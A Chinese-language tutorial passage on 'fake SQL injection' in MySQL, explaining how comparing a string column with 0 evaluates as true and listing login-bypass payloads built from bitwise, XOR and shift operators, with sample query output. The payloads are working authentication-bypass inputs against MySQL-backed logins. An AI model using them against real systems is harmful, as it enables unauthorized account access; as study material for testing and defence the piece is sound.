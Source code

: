 ```
mySQL> select * from users where id='';
Empty set (0.00 sec)

```

因为在id字段没有任何字符串，所以不会有返回结果。 事实上，从这里我已经看到，如果在MySQL字符串字段为0的情况下，返回结果始终为真。根据这个现象，以下语句结果为真。

```
mySQL> select * from users where id=0;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.00 sec)

```

如果你在ID中输入0，所有内容都将被显示。这就是假SQL注入的原理。无论如何，结果为0（真）将使得登录成功。为了使结果为0（真），你需要一些东西处理整数，如使用位操作和算术运算。

下面是使用位运算的例子。

或位运算为任何程序员所熟知。正如我之前告诉过你的，''等于0。如果你计算“0或0”，结果还是0. 所以下面的假SQL注入能成功登录。

```
'|0#

```

当然，你也可以使用和运算。

```
'&0#

```

这是使用异或运算的攻击方法

```
'^0#

```

同样可以使用移位操作。

```
'<<0#
'>>0#

```

如果你喜欢使用位操作，你可以使用多种不同的攻击方法。

```
'&''#
'%11&1#
'&1&1#
'|0&1#
'<<0|0#
'<<0>>0#

```
